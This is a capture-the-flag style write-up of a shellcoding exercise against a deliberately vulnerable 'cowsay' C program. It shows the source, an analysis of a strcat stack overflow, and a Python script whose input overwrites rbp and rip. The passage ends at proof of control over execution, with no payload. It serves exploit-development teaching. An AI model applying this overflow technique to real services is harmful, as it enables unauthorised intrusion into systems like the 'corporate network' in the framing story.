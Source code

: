# Shellcoding - Level 1

## Mission (Cowsay Corruption)

We've been probing a corporate network for weeks looking for a way in, but they're locked down pretty good. Fortunately, one of our networking guys found a server that seems to have a vulnerable version of `cowsay` bound to a port.

We've obtained an identical version of the binary. Can you write us an exploit for it?


## Source Code

```c
// gcc -g -I ../includes -z execstack -fno-stack-protector -no-pie -o 04_level_1 04_level_1.c
#include <stdio.h>
#include <string.h>

// Hidden for simplicity
#include "wargames.h"

void cowsay(const char * text)
{
    // Print top of speech bubble
    printf("    ");
    for (int i = 0; i < strlen(text) + 2; i++)
        printf("-");
    printf("\n");

    // Print speech text
    printf("   < %s >\n", text);

    // Print bottom of speech bubble
    printf("    ");
    for (int i = 0; i < strlen(text) + 2; i++)
        printf("-");
    printf("\n");

    // Print an ASCII cow
    printf("           \\   ^__^             \n");
    printf("            \\  (oo)\\_______     \n");
    printf("               (__)\\       )\\/\\ \n");
    printf("                   ||----w |    \n");
    printf("                   ||     ||     \n");
    printf("        .--+--o--------+------\\+/-----.\n");
}

void main()
{
    init_wargame();

    printf("------------------------------------------------------------\n");
    printf("--[ Shellcode Level #1 - Cowsay                             \n");
    printf("------------------------------------------------------------\n");

    // Buffer to hold user input & final cowsay text
    char text[128] = {};
    char buffer[128] = {};

    // Prompt the user for some cow-friendly text
    printf("Enter a string to cowsay: ");
    fgets(buffer, sizeof(buffer), stdin);
    buffer[strcspn(buffer, "\n")] = 0;

    // Build the final cowsay message, with some added mooing
    strcat(text, "mo00oooo00o0o... ");
    strcat(text, buffer);

    // Clear the original user input buffer off the stack
    memset(buffer, 0, sizeof(buffer));

    // Print the ASCII cow with the user text
    cowsay(text);

    // Exit the program / return from main
}

```


## Static Analysis

Reviewing the code we can see there is two functions. The first function `cowsay` is just used to print out the ascii text, speech bubble and some text (poiner to char array) that is supplied to the function as an argument. 


The main function is where all of the logic happens. 
- At first, the user is prompted to enter a string to cowsay 
- Next, the string that the user entered is concatonated with the text for the cowsay message.
- Finally, the ascii text, with the additional cowsay message and user added string is printed to the terminal. 


Within this function there's two char arrays (buffers), `text` and `buffer`, which are both initialised to 0 and 128 bytes in size. When the user enters a string, this will go to the `buffer` array with the new line stripped. The `text` array has the string `"mo00oooo00o0o... "` concatinated to it intially, which takes up 17 bytes out of the 128 bytes allocation, leaving 111 bytes remaining. The string entered by the user `buffer` is also concatonated to the `text` array.


The interesting thing to note here is that the user supplied string is orignally received from the `fgets` function with a size of 128 bytes and then stored in a 128 byte array. The string in this array is then concatonated to the `text` array which also has a size of 128 bytes, however this does not account for the 17 bytes already taken up in the `text` array or any check on the size of the user string being copied. As a result, there is an overflow in the array if the use supplied a string over 111 bytes. 


## Dynamic Analysis

To test the theory, first we enter a short string "Howdy ya'll!":

```gdb
------------------------------------------------------------
--[ Shellcode Level #1 - Cowsay
------------------------------------------------------------
Enter a string to cowsay:
>> Howdy Ya'll!
    -------------------------------
   < mo00oooo00o0o... Howdy Ya'll! >
    -------------------------------
           \   ^__^
            \  (oo)\_______
               (__)\       )\/\
                   ||----w |
                   ||     ||
        .--+--o--------+------\+/-----.
==== EXECUTION FINISHED ====
```

As we can see, our text is print the terminal screen in the message. 


Next, We'll create a python script to send 111 A's plus an additional 8 B's and 8 C's:


```python
import interact
import struct

# Pack integer 'n' into a 8-Byte representation
def p64(n):
    return struct.pack('Q', n)

# Unpack 8-Byte-long string 's' into a Python integer
def u64(s):
    return struct.unpack('Q', s)[0]

p = interact.Process()
data = p.readuntil('Enter a string to cowsay: ')
p.sendline('A' * 111 + 'B' * 8 + 'C' * 8)

p.interactive()
```

```gdb
$ python3 exploit.py
    -------------------------------------------------------------------------------------
-------------------------------------------------------------
   < mo00oooo00o0o... AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCCCC >
    -------------------------------------------------------------------------------------
-------------------------------------------------------------
           \   ^__^
            \  (oo)\_______
               (__)\       )\/\
                   ||----w |
                   ||     ||
        .--+--o--------+------\+/-----.
```

As expected, this input causes a segmentation fault:

```gdb
rax: 0x0000000000000028
rbx: 0x0000000000000000
rcx: 0x00000000fbad2887
rdx: 0x00007f00005ee780
rsi: 0x00007f00005ed6a3
rdi: 0x0000000000000001
rbp: 0x4242424242424242
rsp: 0x00007fffffffede0
rip: 0x4343434343434343
r8:  0x00007f0000026e40
r9:  0x00007f0000026e40
r10: 0x0000000000000090
r11: 0x00007fffffffed50
r12: 0x00000000004007d0
r13: 0x00007fffffffeeb0
r14: 0x0000000000000000
r15: 0x0000000000000000
fs:  0x0000000000000000
gs:  0x0000000000000000
eflags: 0x0000000000000004
```
Looking at the `rbp` register, we can see that the 8 B's in our input has cleanly overwritten the register. Reviewing the `rip` register, we can see the additional 8 C's we sent has overwritten the register also, giving us control over the execution flow.


